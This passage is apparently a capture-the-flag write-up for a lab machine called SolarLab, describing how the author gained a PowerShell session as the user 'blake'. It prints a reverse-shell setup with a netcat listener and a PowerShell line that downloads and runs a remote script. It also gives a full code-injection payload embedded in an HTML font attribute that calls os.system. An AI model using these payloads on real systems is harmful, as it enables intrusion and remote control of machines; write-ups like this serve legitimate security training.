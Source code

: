 ## Blake shell
after confirming the connection it's time to get a shell!
this part involves these steps:
- setup python server hosting the shell:
```bash
python3 http.server 80   #revshell.ps1 is in the same directory
```

- set up a listening session on a separate tab:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp PORT
```

- This Piece of code is used to download and execute powershell script in memory, were going to add it to the Exploit Code
```powershell
powershell IEX(IWR http://10.10.16.14/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.63 9001
```
#### Final Exploit:
```html
<para><font color="[[[getattr(pow, Word('__globals__'))
['os'].system('powershell IEX(IWR http://10.10.16.14/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.16.63 9001') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1,
 'startswith': lambda self,
  x: 1 == 0,
   '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated',
    self.mutated - 1) },
     '__hash__': lambda self: hash(str(self)), },
      ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
```

sending in the repaeter tab, i got a 503 from the web server
 and a powershell session as the blake user.
 ![alt text](../images/solarlab/rev1.png)
## Initial Foothold
the user flag was found under `C:\Users\blake\Desktop\flag.txt`

checking `Users` folder, i found `openfire`, `Administrator`, and `blake`(me).
